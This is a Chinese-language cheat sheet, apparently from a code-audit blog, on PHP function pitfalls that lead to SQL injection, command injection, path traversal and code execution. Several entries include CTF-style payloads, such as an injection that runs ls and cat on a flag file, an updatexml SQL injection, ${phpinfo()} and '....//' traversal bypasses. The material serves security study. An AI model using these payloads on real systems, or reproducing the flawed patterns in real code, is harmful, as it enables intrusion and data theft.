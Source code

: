 ## **参数处理函数缺陷**
#### **1、urldecode — 解码已编码的 URL 字符串**
```
语法：urldecode( string $str) : string
解码给出的已编码字符串中的任何 %##。 加号（'+'）被解码成一个空格字符。

下面列举了一个关于urldecode()引发SQL注入的例子（具体漏洞编号没找到）
是以前Discuz X1.5的一个漏洞
foreach($_POST as $k => $v) {
$value = urldecode($v);
$this->setParameter($k, $value);
}

单引号被 urlencode 两次以后是 %2527，然后 POST，PHP 内部在生成全局变量 $_POST 的时候会先 urldecode，得到 %27，
然后 PHP 会检查 Magic Quotes 的设置，但是无论是否开启 Magic Quotes，
%27 都不会被转义，因为这时根本没有单引号。但是这时如果在PHP中加上 urldecode，%27就变成单引号了
```

^
#### **2、rawurldecode — 对已编码的 URL 字符串进行解码**
```
语法 rawurldecode( string $str) : string
返回字符串，此字符串中百分号（%）后跟两位十六进制数的序列都将被替换成原义字符。
这个就不细讲了，和urldecode差不多。
```

^
#### **3、is_numeric**
```
bool is_numeric ( mixed $var )
如果 var 是数字和数字字符串则返回 TRUE，否则返回 FALSE。
仅用is_numeric判断而不用intval转换就有可能插入16进制的字符串到数据库，进而可能导致sql二次注入。
```


^
#### **4、in_array()没有true**
用in_array()做白名单，但是第三个参数没有用true。
```
例如文件名为 7shell.php 。
因为PHP在使用 in_array()函数判断时，
会将 7shell.php 强制转换成数字7，而数字7在 range(1,24)数组中，
最终绕过 in_array() 函数判断，导致任意文件上传漏洞。
sql注入等。
```


^
#### **5、filter_var过滤url格式**
```
$url = $_GET['url'];
if(isset($url) && filter_var($url, FILTER_VALIDATE_URL)){
    $site_info = parse_url($url);
    if(preg_match('/sec-redclub.com$/',$site_info['host'])){
        exec('curl "'.$site_info['host'].'"', $result);
```
这里用了 **filter_var** 函数来过滤变量，且用了 **FILTER_VALIDATE_URL** 过滤器来判断是否是一个合法的url。并且满足 **$site\_info\['host']** 的值以 **sec-redclub.com** 结尾
payload
```

?url=demo://%22;ls;%23;sec-redclub.com:80/
?url=demo://%22;cat%20f1agi3hEre.php;%23;sec-redclub.com:80/
```


^
#### **6、class_exists()任意文件读取**
**class_exists()** 函数就会自动调用本程序中的 **__autoload** 函数，这题的文件包含漏洞就出现在这个地方。攻击者可以使用 **路径穿越** 来包含任意文件，当然使用路径穿越符号的前提是 **PHP5~5.3(包含5.3版本)版本** 之间才可以。例如类名为： **../../../../etc/passwd** 的查找，将查看passwd文件。

^
#### **7、strpos()函数绕过**
strpos()函数返回查找到的子字符串的下标
如果字符串开头就是我们要搜索的目标，则返回下标 0 ；如果搜索不到，则返回 false
```
if(!strpos($pass,'>'))
代码原意是$pass中不能>字符，
但是如果>在第一个位置0，取反!后就为true则绕过if
```



^
#### **8、str_replace替换做过滤可能的缺陷**
```
这里看似过滤../防止目录穿越
str_replace('../','',$language)；
```
程序仅仅只是将 **../** 字符替换成空，这并不能阻止攻击者进行攻击。例如攻击者使用payload：**....//** 或者 **..././** ，在经过程序的 **str_replace** 函数处理后，都会变成 **../**


^
#### **9、变量覆盖逃逸addslashes**
```
if(isset($_POST['msg']) && $_POST['msg'] !==''){
    $msg = addslashes($_POST['msg']);
    $msg = replace_bad_word(convert($msg));
    $sql = "INSERT INTO users VALUES($id,'".$msg."')";
    $result = $conn->query($sql);
    if($conn->error) die($conn->error);
}

function replace_bad_word($str){
    global $limit_words;
    foreach ($limit_words as $old => $new) {
        strlen($old) > 2 && $str = str_replace($old,trim($new),$str);
    }
    return $str;
}

function convert($str){
    return htmlentities($str);
}

$limit_words = array('造反' => '造**', '法hh' => '法**');

foreach (array('_GET','_POST') as $method) {
    foreach ($$method as $key => $value) {
        $$key = $value;
    }
}
```
```
这里，我们便可以通过变量覆盖 **$limit_words** 数组，来逃逸单引号，
因为在 **index.php** 文件中使用了 **addslashes** 函数。

msg=1%00' and updatexml(1,concat(0x7e,(select * from flag),0x7e),1))#&limit_words[\0\]=
```


^
#### **10、程序在过滤后没有退出，程序还能执行**
```
error_log（"Hacking attempt.");
header（'Location:/error/');

assert（"(int)$pi ==3")
```
没有使用die ，exit等函数，assert还能执行，$pi直接代码执行。


^
#### **11、未过滤${的可变代码执行**
```
 $content = '<?php  $mysql_server_name="'.$local.'";   $mysql_database="'.$data.'";    $mysql_username="'.$user.'";  $mysql_password="'.$ps.'";   ?>';  

file_put_contents($file,$content);
```
php语言的特性：[PHP可变变量](http://php.net/manual/zh/language.variables.variable.php) 。在PHP中双引号包裹的字符串中可以解析变量，而单引号则不行。 （[\[红日安全\]代码审计](https://www.freebuf.com/column/182130.html)）
可以发现拼接后的字符串把所有的变量都放到了单引号中，并且在字符串过滤时并没有过滤‘{}’，‘()’和‘$’等非法字符。这样一来漏洞利用方式就很清晰了，通过变量注入可执行代码，再去访问注入代码的php文件即可。

```
?ps=${phpinfo()}
```


^
#### **12、htmlentities()拿来过滤sql**

**htmlentities()** 并不能转换所有的特殊字符，是转换除了空格之外的特殊字符，且单引号和双引号需要单独控制（通过第二个参数）。第2个参数取值有3种，分别如下：
* ENT_COMPAT（默认值）：只转换双引号。
* ENT_QUOTES：两种引号都转换。
* ENT_NOQUOTES：两种引号都不转换

如果只是ENT_COMPAT的话，只转义“，可以用单引号进行sql注入。

如果是ENT_QUOTES，”和'都会转义，此时可以直接传入转义符\，重写闭合进行sql注入。



^
#### **13、addslashes()处理过滤**
作用：在单引号（'）、双引号（"）、反斜线（\）与 NUL（ NULL 字符）字符之前加上反斜线。
```
常常配合substr截断，当转义\'后，正好截断到\，此时\可以转义sql的拼接。
```
